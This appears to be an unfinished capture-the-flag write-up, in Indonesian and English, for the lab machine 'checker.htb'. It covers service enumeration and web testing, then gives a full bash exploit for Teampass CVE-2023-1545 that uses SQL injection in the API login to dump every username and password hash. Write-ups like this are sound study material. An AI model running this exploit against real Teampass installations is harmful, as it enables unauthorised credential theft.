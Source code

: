 ![](Pasted%20image%2020250223103627.png)
# 1.  Service Enumeration

| IP  | Port       |
| --- | ---------- |
| TCP | 22,80,8080 |
| UDP | -          |
## A.  TCP Active Port 
![](Pasted%20image%2020250223103808.png)
## B. UDP Active Port
No result.
## C.  Domain
![](Pasted%20image%2020250223112458.png)
add them to /etc/host
# 2. Initial Access
## A. Web
Port 80
fitur:
- Login
- Forgot Password
![](Pasted%20image%2020250223104349.png)
Port 8080 
Fitur:
- Login, ada satu form unik dengan value 60
- menggunakan **Teampass** -> coba cek versi nya
![](Pasted%20image%2020250223104646.png)

## C. Directory
ga bisa ada waf kedua web servernya
![](Pasted%20image%2020250223111956.png)
ada rate limiting
![](Pasted%20image%2020250223104841.png)
## D. checker.htb Forgot Password
reflected
![](Pasted%20image%2020250223113128.png)
cannot be exploited yet
![](Pasted%20image%2020250223122524.png)
coba test SQLi injection save it to file, and send it to sqlmap
![](Pasted%20image%2020250223212122.png)
tidak berhasil
## E. Teampass
tidak menemukan version, coba cari manual
https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612
[CVE-2023-1545](https://www.cve.org/CVERecord?id=CVE-2023-1545)
![](Pasted%20image%2020250224142310.png)
```
```php
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```
```






# 3. Privilege Escalation
## a. 

# 4. Post Exploitation
## a. User Flag
## b. Root Flag
